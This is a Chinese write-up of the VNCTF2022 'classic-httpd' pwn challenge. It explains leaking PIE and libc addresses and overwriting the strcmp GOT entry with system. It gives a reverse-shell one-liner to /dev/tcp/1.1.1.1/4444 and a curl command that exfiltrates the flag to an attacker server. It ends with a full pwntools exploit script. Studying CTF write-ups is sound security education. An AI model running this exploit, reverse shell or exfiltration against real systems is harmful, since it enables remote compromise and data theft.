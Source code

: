 ```yaml
---
layout: article
pageview: true
key: 2022-03-07-vnctf2022-httpd
title: VNCTF2022Pwn题WP
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```


通过`classic-httpd`学习入门`httpd-pwn`
<!--more-->

## classic-httpd

题目是64位elf，保护为`Partial RELO`，意味着`got`表可写，其他保护全开。
### 初步分析
一般httpd程序的执行流程为
1. 在main函数中用pthread或fork来进入HTTP请求处理函数
2. 在HTTP请求处理函数中，过滤掉不合法的请求协议（通常只接受GET/POST）和请求目录（通常过滤掉含有".."的url，使我们不能访问`xxx.com/../flag` 来直接读取flag）
3. 根据请求url，跳转到对应的cgi函数或文件读取函数

程序只有3个可以访问的路径，`/htdocs/index.html`、`/htdocs/welcome.cgi`、`/htdocs/submit.cgi`，前两个路径都只会返回`/htdocs/index.html`文件内容，我们重点分析第三个cgi

![](https://md.buptmerak.cn/uploads/upload_060cbb11e92d60deb961e641ed7bf0ee.png)
经过逆向，我们发现`submit.cgi`以`GET`方式接受一个`base64`加密后的字符串，字符串原文必须类似以下结构
```c 
int num;
struct payload
{
    int code;
    int arg[6];

}payloads[8];
```
结构体中`code`决定走向哪一个功能分支，我们发现有输出功能、泄露制定地址功能、任意地址内容泄露功能、任意地址写功能以及一个输出功能，并且功能的使用顺序有一定的限制。
### 利用思路
我们先创建`/htdocs/index.html`来保证程序能够正常运行。
不难想到通过指定地址泄露功能来拿到`pie`地址，再通过任意地址内容泄露功能打印出`got`表内容来泄露`libc`基地址，如果为传统pwn，我们就可以任意地址写修改`hook`为`one_gadget`或修改`got`表来运行`system("cat flag")`拿flag走人，但别忘了在httpd-pwn中，我们与程序的交互有`socket`的隔阂，我们只能获取到程序通过`socket`发送的内容，程序的输出对我们来说并不可见。
### 反弹flag方法
既然我们在`socket`语境下，那我们也用`socket`的方法解决问题。
首先我们需要控制程序流，我们注意到在输出功能中有一个`strcmp`函数以用户输入的字符串为参数，那我们就可以修改其为`system`函数来执行命令，我们就可以尝试反弹shell、反弹flag、写flag进文件的方法了。

- 反弹shell
    1. 首先我们需要一台公网服务器，其ip假定为 1.1.1.1，我们登录服务器并运行命令`nc -lvp 4444`
    2. 在受害者的电脑上运行命令`bash -i >& /dev/tcp/1.1.1.1/4444 0>&1`，在此题语境下为执行`system("bash -i >& /dev/tcp/1.1.1.1/4444 0>&1");`（下略）
    3. 我们可以看到服务器上出现了受害者的shell，cat flag即可

- 反弹flag
    1. 我们依然需要一台公网服务器并有一个http服务器运行在80端口，ip假定为 1.1.1.1
    2. 执行curl http://1.1.1.1/\`cat flag\` （注意命令中的反引号）
    3. 登录服务器，查看日志，获取flag
![](https://md.buptmerak.cn/uploads/upload_338c549a596c7b26f76193d8b6421cfd.png)

- 写flag到文件
    1. 直接执行`cat flag > /htdocs/index.html`
    2. 正常访问`/htdocs/index.html`即可
程序在docker环境里一般没有写权限，所以这种方法成功率并不高

利用命令执行拿flag的方法还有很多，这里就不一一细举了，具体使用需要依赖题目环境等，希望能对刚刚接触http-pwn的读者有所启发。

### 完整exploit

```python-repl=
from pwn import *
import base64
import requests
context(arch='amd64',os='linux',log_level='debug')

elf=ELF('./httpd')
libc=ELF('./glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc-2.31.so')

url='http://localhost:4000/submit.cgi'

def make(con):
    return base64.b64encode(con)

payload=p32(1)+p32(102)+p32(0)
s=requests.get(url,params=make(payload))
res=s.text
print(res)
pie=int(res[27:39],16)-0x4008
print("[+]pie->"+hex(pie))

payload=p32(1)+p32(136)+p64(pie+elf.got['printf'])+p64(0)
s=requests.get(url,params=make(payload))
res=s.text
print(res)

libc_base=int(res[40:52],16)-libc.sym['printf']

print("[+]libc_base->"+hex(libc_base))

shell=b'curl http://xx.xx/`cat flag`'
payload=p32(2)+p32(241)+p64(pie+elf.got['strcmp'])+p64(0)+p64(libc_base+libc.sym['system'])+p32(34)+shell
s=requests.get(url,params=make(payload))
res=s.text
print(res)

```

### Tips
泄露远程libc版本后，可以使用[glibc-all-in-one](https://github.com/matrix1001/glibc-all-in-one)下载带符号表的`libc`文件帮助调试。